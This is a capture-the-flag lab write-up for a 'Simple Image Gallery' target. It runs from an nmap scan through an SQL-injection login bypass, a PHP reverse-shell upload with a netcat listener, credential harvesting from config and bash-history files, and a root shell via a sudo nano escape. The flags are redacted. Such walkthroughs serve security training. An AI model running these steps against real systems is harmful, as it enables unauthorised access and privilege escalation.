# Nmap: 
---
```bash
nmap -T4 -A -p 22,80,8080 10.113.132.64 -v -oN nmap
```

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5e:26:24:98:ec:e8:dd:51:1a:bc:74:f4:9f:aa:20:6a (RSA)
|   256 14:eb:90:0a:6a:30:4e:90:7d:be:fa:81:0e:8c:af:b5 (ECDSA)
|_  256 cc:34:4b:c1:3f:9b:65:d2:a6:57:d8:e4:f8:5e:1c:06 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Simple Image Gallery System
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: DA28F4245B16DF7FD2E163CCB96A747A
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- we can see that `3` ports are open and that the `web-server` is possibly using the `Simple Image Gallery` CMS
- so we can answer the first 2 questions 
- lets investigate both `web-servers` 

# Webserver: 
---



- when we open up the `webserver` on port `8080` we can see a login form, I tested credentials like `admin:password` but had no success 
- the `failed` message from the login form also had no real hint about a username so I tried `SQL Injection` 



- it worked and I got to the dashboard: 



# Reverse Shell: 
---
- as I looked for a way to get a reverse shell, I saw that you could update the `profile picture` 



- so I tried to upload the `php reverse-shell` from pentestmonkey [here](https://github.com/pentestmonkey/php-reverse-shell)
- but first we have to setup a listener with `netcat` on our local machine: 

```bash
nc -lnvp 1234 (use the same port that is set in the php-reverse-shell from pentestmonkey)
```

- afterwards we can choose the `reverse shell` as `Avatar` and when we press the `update`-Button we get a `reverse-shell` 



- to stabilize the shell a little bit we can execute this command: 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

- and if you want to clear the terminal you have to set: 
```bash
export TERM=xterm
```

# Admin hash: 
---
- to find the hash I started looking in `/var/www/html` to hopefully find credentials for the database
- and after a little bit of searching I found this in `initialize.php`: 

```php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"<Redacted>");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"<Redacted>");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

- lets use the credentials to login into the database and look for the `admin hash` 

```bash
mysql -u <Redacted> -p
```

- I found the hash in the `users` table in the `gallery_db` database: 
```bash
MariaDB [gallery_db]> select * from users;
select * from users;
+----+--------------+----------+----------+----------------------------------+--------------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                               | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+--------------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | <Redacted>                       | uploads/1783591500_reverse-shell.php | NULL       |    1 | 2021-01-20 14:02:37 | 2026-07-09 10:05:44 |
+----+--------------+----------+----------+----------------------------------+--------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.000 sec)
```

# user.txt: 
---
- we can find the `user.txt` in the home-directory from `mike`, but with the user `www-data` we cannot read the file 
- so we have to escalate our privileges horizontally
- after a little bit of searching I found a `mike_home_backup` directory in `/var/backups` and here I could print out the contents of `.bash_history` and found the password for `mike`: 

```bash
www-data@ip-10-112-142-105:/var/backups/mike_home_backup$ cat .bash_history
cd ~
ls
ping 1.1.1.1
cat /home/mike/user.txt
cd /var/www/
ls
cd html
ls -al
cat index.html
sudo -l<Redacted>
clear
sudo -l
exit
```

- now we can log into `mike` and read the `user.txt`: 
```bash
THM{<Redacted>}
```

# root.txt: 
---
- when we execute `sudo -l` as `mike` we can see this output: 
```bash
Matching Defaults entries for mike on ip-10-112-142-105:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on ip-10-112-142-105:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

```bash
mike@ip-10-112-142-105:/opt$ cat rootkit.sh 
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

- when we enter `read` as the input the `report.txt` gets opened with `nano` 
- so when `nano` is started with `root priviliges` we can maybe get a `root shell` when we look up `nano` on `GTFOBins` [here](https://gtfobins.org/gtfobins/nano/)



- lets try the `(a)`
- so first we enter `read` as input: 


- then we can see that we are in `nano`: 


- and now we press `^R^X` and type out: `reset; sh 1>&0 2>&0`: 


- after we press `Enter` we can see the `#` symbol besides the text `[ Executing... ]`: 


- this is the sign that we got a `shell`: 


- now we can read the `root.txt`: 
```bash
THM{<Redacted>}
```